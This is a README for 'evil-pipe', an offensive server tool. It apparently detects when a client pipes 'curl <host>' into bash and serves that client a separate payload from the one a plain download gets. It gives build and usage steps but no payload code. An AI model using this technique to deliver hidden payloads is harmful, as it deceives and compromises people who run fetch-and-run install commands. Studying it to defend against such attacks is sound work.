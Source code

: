 # evil-pipe

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)



![Demo](https://raw.githubusercontent.com/4iar/evil-pipe/assets/demo.gif)

## Build

```bash
$ mkdir build && cd build
$ cmake ..
$ make
```

## Usage

Payload scripts are read from two files:


| File | When it is sent |
|----------|-------------|
| pipe_payload.txt |  curl <host> \| bash |
| non_pipe_payload.txt |   curl <host> |

After configuring the payloads, start the server with a port

```bash
$ ./evil-pipe <port>
```


## Acknowledgements

Uses [Phil's passive delay method](https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).
